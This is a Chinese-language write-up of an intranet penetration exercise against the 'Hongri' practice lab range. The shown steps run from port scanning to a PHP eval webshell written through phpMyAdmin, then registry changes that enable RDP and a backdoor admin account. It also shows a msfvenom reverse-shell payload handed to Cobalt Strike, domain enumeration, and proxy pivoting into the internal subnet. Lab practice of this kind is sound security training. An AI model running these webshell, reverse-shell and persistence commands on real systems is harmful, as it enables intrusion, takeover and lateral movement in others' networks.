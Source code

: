 # 红日1靶场(一)

搭建环境过程省略

拓扑图
ip

dc 192.168.52.141

成员 192.168.52.138

web 192.168.72.4 192.168.52.143



### 信息收集

2.1扫描主机

```
netdiscover
```



![image-20200812155453582](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155453582.png)

2.2探测端口

```
nmap -sC -sV -Pn -p 1-65525 192.168.72.4          //-sC根据端口识别服务 -sV版本探测 -Pn不检测主机存活 -p扫描指定端口
```

![image-20200812155928191](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155928191.png)

2.3打开发现一个php探针模块 滑到最下面 发现可以连接mysql数据库 默认密码 root root

另外还有一个,也可以尝试getshell,这个地方需要爆破后台之后 ,通过后台才可以getshell

http://192.168.72.4/yxcms/index.php?r=admin/index/index

![image-20200812160516081](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160516081.png)

![image-20200812160756335](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160756335.png)

![image-20200812160733487](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160733487.png)

2.4利用phpadmin getshell 有两种方法into outfile 和 利用日志文件写入

第一种 利用条件 需要知道网站绝对路径 和root权限 [其实方法是对的,鉴于mysql的新特性而言等会补充]

```sql
select  '<?php eval($_POST[cmd]); ?>'  into outfile  'C:/phpStudy/WWWshell.php';
```

提示这个

![image-20200813083217060](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813083217060.png)

第二种利用mysql日志写入

```mysql
#查看日志状态
show variables  like  '%general%';
#这里解释一下,当开启general时,所执行的sql语句就会生成对应的文件中
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

**![image-20200813100723299](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813100723299.png)**

2.5这里我们已经getshell并连接上了.开始一波内网信息收集

![image-20200813102958077](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813102958077.png)

2.5因为是练习,我们在尝试一下第二种getshell的方法



# 内网渗透

3.1尝试远程登录

查看当前用户权限,如果渗透进去发现是Windows系统的话,首先尝试连接他的远程桌面,所以再看一下3389端口开放情况

![image-20200813103313458](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813103313458.png)

```shell
#运行下面的命令,有回显说明打开的,没有回显说明关闭的
netstat -an | find "3389"
#运行下面的命令,打开3389端口,八个0是打开 八个一是关闭
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

```

3.2添加一条用户,尝试利用3389远程登录--发现连接不上,估计和防火墙,有关系,可能有白名单也说不定

```powershell
net user test 1234.com /add
net localgroup administrators test /add
net user test
```

![image-20200813104338630](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104338630.png)

![image-20200813104945055](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104945055.png)

3.3使用msf制作木马利用webshell上传执行

```bash
#制作木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.72.12 LPORT=7521 -f exe > msf.exe
#msf反弹shell
msf5 > use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.72.5
msf5 exploit(multi/handler) > set lport 7521
msf5 exploit(multi/handler) > exploit 
#msf和cs联动 cs就会接受到shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true 
set lhost 120.92.211.101
set lport 80
set session 1
exploit 

```

![image-20200814201541186](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201541186.png)

![image-20200814201811713](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201811713.png)

![image-20200814201939532](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201939532.png)

3.4 利用cs打开beacon界面 输入命令--思路差不多就是 域是什么 域里面几个用户 域几台主机 域控是谁 webIp

```powershell
#内网信息收集常用命令
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
ipconfig /all 　　　　　  #查询本机IP段，所在域等 
net config Workstation  #当前计算机名，全名，用户名，系统版本，工作站域，登陆域 
net user 　　　　　　　   #本机用户列表
net group "domain computers" /domain   #查看域内所有的主机名 
net group "domain admins" /domain      #查看域管理员 
net group "domain controllers" /domain #查看域控
net localhroup administrators          #本机管理员[通常含有域用户]
net user 用户名 /domain                 #获取指定用户的账户信息  
net group /domain                      #查询域里面的工作组 
net group 组名 /domain                  #查询域中的某工作组

```

```
域 owa.god.org
域中用户 administrator ligang liukaifeng01 
域中主机 
域控是 owa 192.168.52.138 主机有三台 
自己ip 192.168.72.4 192.168.52.142
```

![image-20200814202248739](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202248739.png)

![image-20200814202515714](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202515714.png)

# 三 横向移动

​    因为我们目前就只拿下了外网,我们的最终目标是拿下域控

3.1添加路由

```
meterpreter > run autoroute -s 192.168.52.0/24

```

![image-20200814210553057](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210553057.png)

3.2添加代理步骤

```
use auxiliary/server/socks4a
run
编辑配置文件
vim /etc/proxychains.conf
#可以这样测试一下,不建议用ping 可能ping不通
msf5 auxiliary(server/socks4a) > proxychains curl http://192.168.52.143

```

![image-20200814210926814](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210926814.png)

![image-20200814211154891](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814211154891.png)

3.3开始对内网主机渗透

```
因为信息收集的时候内网是加上外网这台主机,有三台主机下面先对141这台主机一个渗透测试
(1)先扫描一下
msf5 auxiliary(server/socks4a) > proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141
(2)开放了445端口 使用利用 扫描系统版本,发现是2003
use auxiliary/scanner/smb/smb_version

```

![image-20200814230443797](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230443797.png)

![image-20200814230924286](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230924286.png)

